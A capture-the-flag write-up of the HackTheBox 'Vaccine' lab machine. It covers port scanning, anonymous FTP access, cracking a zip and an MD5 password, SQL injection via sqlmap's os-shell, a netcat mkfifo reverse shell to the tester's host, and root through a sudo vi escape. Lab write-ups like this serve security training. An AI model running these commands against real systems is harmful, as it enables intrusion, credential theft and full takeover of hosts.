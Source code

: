 ```yaml
---
title: Starting Point | Vaccine
author: Zeropio
date: 2022-04-30
categories: [Pentesting, HackTheBox]
tags: [htb]
permalink: /pentesting/htb/starting-point/vaccine
---
```



# Enumeration
First we scan the IP:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-30 13:27 EDT
Nmap scan report for 10.129.13.233
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
```

---

# Explotation

### FTP
We would try to login with a default user in the ftp:
```console
> ftp anonymous@10.129.13.233
Password: 
230 Login successful.
```

We can try to navigate throw the FTP:
```console
ftp> ls
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> get backup.zip
ftp> cd ..
```
We can download the zip, but we can not navigate to other directory.

If we try to unzip but it ask for a password. We need to crack the password:
```console
> sudo zip2john backup.zip > ziphash  
> sudo john ziphash --fork=10 -w=/usr/share/wordlists/rockyou.txt
    741852963
```

There we have logins to the webpage, but the password is encrypted.
We can see that is a md5 with **hash-identifier**. If we search it we can get the plain text: **qwerty789**.
Now we can login in the page.

### SQL
We can see that we have a table, if we search on it the url change:
```
http://10.129.13.233/dashboard.php?search=
```

It seems to have a <a href="{{ "/notes/databases/sql/" | prepend: site.baseurl }}">SQLi</a>, so we can try to use **sqlpmap**:
```console
sqlmap -r req
```
Where **req**:
```
GET /dashboard.php?search=a HTTP/1.1
Host: 10.129.13.233
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.13.233/dashboard.php
Connection: close
Cookie: PHPSESSID=05ndh3sf35jpa3l93oj9afdlgf
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

We check that it has a SQLi, then we can start a reverse shell:
```console
sqlmap -r req --os-shell
```
We should start a reverse shell in the **os-shell>** to more accessibility. We will open a port in our host and send this command on **Vaccine**:
```console
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.167 9000 >/tmp/f
```

---

# Privilage Escalation
We can go to **/var/www/html** and search for credentials with:
```console
> cat * | grep pass
```
We can see the credentials: **postgres:P@s5w0rd!**. Now we can try:
```console
> script /dev/null -c bash # To get a better shell
> sudo -l
    User postgres may run the following commands on vaccine:
        (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Now, we will execute vi.
```console
> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
Afterwards, we execute:
```console
:!/bin/bash
```
And now we are root.
